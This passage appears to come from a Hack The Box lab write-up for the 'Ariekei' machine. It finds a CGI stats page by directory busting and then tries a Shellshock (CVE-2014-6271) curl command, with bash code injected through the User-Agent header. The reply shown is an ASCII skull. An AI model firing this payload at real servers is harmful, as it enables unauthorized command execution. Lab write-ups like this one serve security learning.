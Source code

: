 
We can add both of them to our hosts file ofcourse

* **beehive.ariekei.htb**
    
    Maintainence!
    
    <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Ariekei/Images/beehive.htb.PNG"></kbd>
    
    After dirbusting we instantly get a page like this! https://beehive.ariekei.htb/cgi-bin/stats/
    
    <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Ariekei/Images/shellshock.website.PNG"></kbd>
    
    This screams shellshock!!
    
    Lets try it out
    
```

root@kali:~/hackthebox/Ariekei# curl -k -H 'User-Agent: () { :; }; echo "CVE-2014-6271 vulnerable" bash -c id'  https://beehive.ariekei.htb/cgi-bin/stats/

<pre>
                          oooo$$$$$$$$$$$$oooo
                      oo$$$$$$$$$$$$$$$$$$$$$$$$o
                   oo$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$o         o$   $$ o$
   o $ oo        o$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$o       $$ $$ $$o$
oo $ $ "$      o$$$$$$$$$    $$$$$$$$$$$$$    $$$$$$$$$o       $$$o$$o$
"$$$$$$o$     o$$$$$$$$$      $$$$$$$$$$$      $$$$$$$$$$o    $$$$$$$$
  $$$$$$$    $$$$$$$$$$$      $$$$$$$$$$$      $$$$$$$$$$$$$$$$$$$$$$$
  $$$$$$$$$$$$$$$$$$$$$$$    $$$$$$$$$$$$$    $$$$$$$$$$$$$$  """$$$
   "$$$""""$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$     "$$$
    $$$   o$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$     "$$$o
   o$$"   $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$       $$$o
   $$$    $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$" "$$$$$$ooooo$$$$o
  o$$$oooo$$$$$  $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$   o$$$$$$$$$$$$$$$$$
  $$$$$$$$"$$$$   $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$     $$$$""""""""
 """"       $$$$    "$$$$$$$$$$$$$$$$$$$$$$$$$$$$"      o$$$
            "$$$o     """$$$$$$$$$$$$$$$$$$"$$"         $$$
              $$$o          "$$""$$$$$$""""           o$$$
               $$$$o                                o$$$"
                "$$$$o      o$$$$$$o"$$$$o        o$$$$
                  "$$$$$oo     ""$$$$o$$$$$o   o$$$$""
                     ""$$$$$oooo  "$$$o$$$$$$$$$"""
                        ""$$$$$$$oo $$$$$$$$$$
                                """"$$$$$$$$$$$
                                    $$$$$$$$$$$$
                                     $$$$$$$$$$"
                                      "$$$""""

</pre>
  ```
  
  GET REKT!
  